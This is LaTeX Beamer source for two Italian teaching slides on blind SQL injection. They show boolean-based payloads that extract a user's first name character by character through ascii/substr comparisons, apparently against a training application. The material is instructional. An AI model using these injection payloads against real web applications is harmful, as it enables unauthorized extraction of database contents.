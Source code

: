 \documentclass{beamer}
\newtheorem{codice}{Listing}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Blind SQL Injection 2/3}
  Inseriamo un input cos\`i costruito:
  \begin{codice}
    \begin{tiny}
      \begin{semiverbatim}
	101 AND (ascii( substr((SELECT first\_name FROM 
                        user\_data WHERE userid=15613),1 , 1)) $<$ 77 );
      \end{semiverbatim}
    \end{tiny}
  \end{codice}
La risposta alla query sar\`a di tipo booleano. Se ``True'', la web application risponder\`a con il messaggio ``Account Valido'', con il messaggio ``Account non valido'' altrimenti.
\pause
\medskip
\newline
\alert{
  In pratica stiamo verificando se il primo carattere del campo ``first\_name'' della tupla identificata da ``userid = 15613'' ha valore ascii minore di 77 (ovvero, minore di 'M').}
\end{frame}

\begin{frame}[fragile]
  \frametitle{Blind SQL Injection 3/3}
  Andando per tentativi:
  \begin{codice}
    \begin{tiny}
      \begin{semiverbatim}
/* J */
101 AND (ascii( substr((SELECT first_name FROM 
                          user_data WHERE userid=15613),1 , 1)) = 74);
/* o */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),2 , 1)) = 111);
/* e */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),3 , 1)) = 101);
/* s */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),4 , 1)) = 115);
/* p */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),5 , 1)) = 112);
/* h */
101 AND (ascii(substr((SELECT first_name FROM 
                       user_data WHERE userid=15613),6 , 1)) = 104);
      \end{semiverbatim}
    \end{tiny}
  \end{codice}
  Il valore che volevamo ottenere \`e ``Joesph''.
\end{frame}
\end{document}
